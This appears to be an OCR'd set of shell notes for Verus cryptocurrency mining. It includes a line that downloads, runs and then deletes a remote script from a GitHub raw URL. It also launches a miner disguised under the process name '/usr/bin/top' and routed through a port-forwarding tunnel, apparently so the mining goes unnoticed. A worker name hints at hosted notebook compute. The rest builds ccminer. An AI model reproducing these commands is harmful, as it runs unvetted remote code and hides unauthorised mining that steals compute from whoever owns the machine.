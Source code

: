 fuser -k 4055/tcp
npm i dotenv (install modul dotenv di node)

#### dependence ccminer

apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential

wget https://raw.githubusercontent.com/hudahadoh/vs/main/vs.sh && chmod +x vs.sh && ./vs.sh && rm vs.sh && cd /usr/bin

./bhmax -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.py1 -p x -t 1

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://jecdg-64162.portmap.host:64162  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.x85 -p x -t 85
./hi -s "/usr/bin/top" -d -p test.pid ./bhmax  -a verus  -o stratum+tcp://jecdg-64162.portmap.host:64162  -u RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.xlt1-4 -p x -t 1


###

git clone --single-branch -b Verus2.2 https://github.com/monkins1010/ccminer.git

cd ccminer

chmod +x build.sh

chmod +x configure.sh

chmod +x autogen.sh

./build.sh

./ccminer  -a verus  -o stratum+tcp://eu.luckpool.net:3956  -u RRT2bJnHu9n1Qzh4crRZZKFoX3HXrtTDer.colabs3  -p x  -t 4
